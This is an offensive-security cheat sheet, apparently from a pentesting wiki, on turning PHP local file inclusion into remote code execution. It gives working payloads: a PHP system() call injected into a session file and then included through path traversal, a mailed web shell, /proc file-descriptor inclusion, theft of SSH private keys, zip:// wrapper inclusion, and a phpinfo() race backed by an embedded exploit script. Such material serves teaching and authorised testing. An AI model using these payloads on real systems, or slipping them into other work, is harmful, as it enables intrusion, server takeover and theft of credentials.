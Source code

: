 # LFI to RCE

### Php sessions method <a href="#php-sessions-method" id="php-sessions-method"></a>

```bash
#Check if the website use PHP
SESSIDSet-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Tue, 30-Jun-2020 10:25:29 GMT; path=/; httponly

​#In php sessions are store into /var/lib/php5/sess_PHPSESSID files
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";​

#Set the cookie to <?php system("whoami"); ?>
login=1&user=<?php system("whoami");?>&pass=password&lang=en_us.php​

#Use the LFI to include the PHP session file
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2​
```

### Email method <a href="#email-method" id="email-method"></a>

```bash
#Send a mail to internal account (user@localhost) containing:
<?php echo system($_REQUEST["cmd"]); ?>
#Access to the mail (/var/mail/USER&cmd=whoami)
```

### /proc/\*/fd/\* method <a href="#proc-fd-method" id="proc-fd-method"></a>

```bash
#Upload a lot of shells
http://web.com/index.php?page=/proc/$PID/fd/$FD
#$PID = PID of the proccess (can be bruteforced)
#$FD = filedescriptor (can be bruteforced)
```

### Ssh method <a href="#ssh-method" id="ssh-method"></a>

```bash
#Check which user is being used (/proc/self/status - /etc/passwd)
/home/hax0r/.ssh/id_rsa #hax0r = User is being used
```

### Using a zip upload <a href="#phpinfo-method" id="phpinfo-method"></a>

```
1. Create a .php file (rce.php)
2. Compress it to a .zip file (file.zip)
3. Upload your .zip file on the vulnerable web application
4. Trigger the RCE:
https://site.com/index.php?page=zip://path/file.zip%23rce.php
```

### Phpinfo() method <a href="#phpinfo-method" id="phpinfo-method"></a>

To exploit this you need: page where phpinfo() is displayed, "file\_uploads=on" and the server has to be able to write in "/tmp" directory.

{% embed url="https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py" %}
Script to exploit Phpinfo() method
{% endembed %}
